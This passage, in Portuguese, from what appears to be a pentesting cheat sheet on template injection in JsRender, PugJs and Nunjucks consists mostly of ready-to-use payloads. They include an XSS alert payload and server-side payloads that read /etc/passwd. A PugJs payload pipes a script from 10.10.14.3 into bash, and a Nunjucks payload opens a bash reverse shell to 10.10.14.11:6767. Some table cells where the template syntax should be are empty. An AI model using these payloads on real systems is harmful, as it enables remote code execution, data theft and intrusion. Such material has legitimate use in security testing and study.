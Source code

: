 | **Template** | **Descrição**                           |
| ------------ | --------------------------------------- |
|              | Avaliar e renderizar saída              |
|              | Avaliar e renderizar saída codificada em HTML |
|              | Comentário                              |
| and          | Permitir código (desativado por padrão) |

* \= 49

**Lado do Cliente**
```python
{{:%22test%22.toString.constructor.call({},%22alert(%27xss%27)%22)()}}
```
**Lado do Servidor**
```bash
{{:"pwnd".toString.constructor.call({},"return global.process.mainModule.constructor._load('child_process').execSync('cat /etc/passwd').toString()")()}}
```
**Mais informações**

* [https://appcheck-ng.com/template-injection-jsrender-jsviews/](https://appcheck-ng.com/template-injection-jsrender-jsviews/)

### PugJs (NodeJS)

* `#{7*7} = 49`
* `#{function(){localLoad=global.process.mainModule.constructor._load;sh=localLoad("child_process").exec('touch /tmp/pwned.txt')}()}`
* `#{function(){localLoad=global.process.mainModule.constructor._load;sh=localLoad("child_process").exec('curl 10.10.14.3:8001/s.sh | bash')}()}`

**Exemplo de renderização do lado do servidor**
```javascript
var pugjs = require('pug');
home = pugjs.render(injected_page)
```
**Mais informações**

* [https://licenciaparahackear.github.io/en/posts/bypassing-a-restrictive-js-sandbox/](https://licenciaparahackear.github.io/en/posts/bypassing-a-restrictive-js-sandbox/)

### NUNJUCKS (NodeJS) <a href="#nunjucks" id="nunjucks"></a>

* \{{7\*7\}} = 49
* \{{foo\}} = Sem saída
* \#{7\*7} = \#{7\*7}
* \{{console.log(1)\}} = Erro
```javascript
{{range.constructor("return global.process.mainModule.require('child_process').execSync('tail /etc/passwd')")()}}
{{range.constructor("return global.process.mainModule.require('child_process').execSync('bash -c \"bash -i >& /dev/tcp/10.10.14.11/6767 0>&1\"')")()}}
```
**Mais informações**
